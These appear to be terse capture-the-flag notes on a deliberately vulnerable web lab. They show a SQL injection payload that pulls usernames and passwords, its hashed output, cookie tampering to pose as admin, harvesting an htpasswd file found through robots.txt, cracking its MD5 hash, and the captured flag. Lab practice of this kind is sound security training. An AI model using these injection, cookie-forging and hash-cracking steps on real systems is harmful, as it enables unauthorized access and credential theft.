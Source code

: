 from the img search :

 1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default


NOPE:
ID:  1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default 
Title: 3bf1114a986ba87ed28fc1b5884fc2f8
Url : root


NOPE:
ID:  1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default 
Title: 3bf1114a986ba87ed28fc1b5884fc2f8
Url : admin


=> tried same as for login page, does not work
=> also made sure that cookie "I_am_admin" was set to True, still does not work




opened url IP/robots.txt

showed 2 directories, including /whatever
go to IP/whatever, has file htpasswd
=> download file, open, decrypt pwd with md5
qwerty123@

The flag is : d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff

